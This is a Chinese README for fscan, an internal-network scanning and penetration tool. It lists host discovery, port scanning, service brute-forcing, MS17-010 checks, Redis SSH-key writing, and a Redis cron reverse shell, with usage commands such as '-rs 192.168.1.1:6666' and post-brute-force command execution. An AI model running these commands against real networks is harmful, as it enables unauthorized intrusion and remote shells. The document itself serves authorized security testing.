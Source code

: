 # fscan

# 简介
一款内网扫描工具，方便一键大保健。    
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写私钥、计划任务反弹shell、读取win网卡信息、web漏洞扫描等。  
趁着最近有空，用go把f-scrack重构了一遍。使用go来编写，也有更好的扩展性及兼容性。  
还在逐步增加功能，欢迎各位师傅提意见。


## why
为什么有LadonGo、x-crack 、tscan、Gscan 这些工具了还要写fscan

答：  
因为用习惯了f-scrack，习惯一条命令跑完所有模块，省去一个个模块单独调用的时间，当然我附加了-m 指定模块的功能。

## 最近更新
[+] 2021/2/25 修改yaml解析模块,支持密码爆破,如tomcat弱口令。yaml中新增sets参数,类型为数组,用于存放密码,具体看tomcat-manager-week.yaml
[+] 2021/2/8 增加指纹识别功能,可识别常见CMS、框架,如致远OA、通达OA等。  
[+] 2021/2/5 修改icmp发包模式,更适合大规模探测。   
修改报错提示,-debug时,如果10秒内没有新的进展,每隔10秒就会打印一下当前进度    
[+] 2020/12/12 已加入yaml解析引擎,支持xray的Poc,默认使用所有Poc(已对xray的poc进行了筛选),可以使用-pocname weblogic,只使用某种或某个poc。需要go版本1.16以上,只能自行编译最新版go来进行测试    
[+] 2020/12/6 优化icmp模块,新增-domain 参数(用于smb爆破模块,适用于域用户)  
[+] 2020/12/03 优化ip段处理模块、icmp、端口扫描模块。新增支持192.168.1.1-192.168.255.255。  
[+] 2020/11/17 增加-ping 参数,作用是存活探测模块用ping代替icmp发包。   
[+] 2020/11/17 增加WebScan模块,新增shiro简单识别。https访问时,跳过证书认证。将服务模块和web模块的超时分开,增加-wt 参数(WebTimeout)。    
[+] 2020/11/16 对icmp模块进行优化,增加-it 参数(IcmpThreads),默认11000,适合扫B段  
[+] 2020/11/15 支持ip以文件导入,-hs ip.txt,并对去重做了处理

## usege
简单用法
``` 
go run main.go -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写私钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
```
```
-h 192.168.1.1/24 (C段)  
-h 192.168.1.1/16 (B段)
-h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
-hf ip.txt  (以文件导入)
```


完整参数
```
  -Num int
        poc rate (default 20)
  -c string
        exec command (ssh)
  -domain string
        smb domain
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        host file, -hs ip.txt
  -it int
        Icmp Threads nums (default 11000)
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -nopoc
        not to scan web vul
  -np
        not to ping
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,11211,27017")
  -ping
        using ping replace icmp
  -pocname string
        use the pocs these contain pocname, -pocname weblogic
  -proxy string
        set poc proxy, -proxy http://127.0.0.1:8080
  -pwd string
        password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub)
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666)
  -t int
        Thread nums (default 200)
  -time int
        Set timeout (default 3)
  -user string
        username
  -userf string
        username file
  -wt int
        Set web timeout (default 3)

```

## 运行截图

`fscan.exe -h 192.168.x.x  (全功能、ms17010、读取网卡信息)`
![](image/1.png)

![](image/4.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写私钥)`
![](image/2.png)

`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](image/3.png)

`fscan.exe -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 一键支持xray的poc`
![](image/2020-12-12-13-34-44.png)

## 未来计划
[*] 合理输出当前扫描进度  
[*] 增加内网常见高危漏洞  
[*] 增加高危web漏洞扫描  
[*] 师傅们觉得有必要加的漏洞，也可以提issue


## 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   
https://github.com/jjf012/gopoc
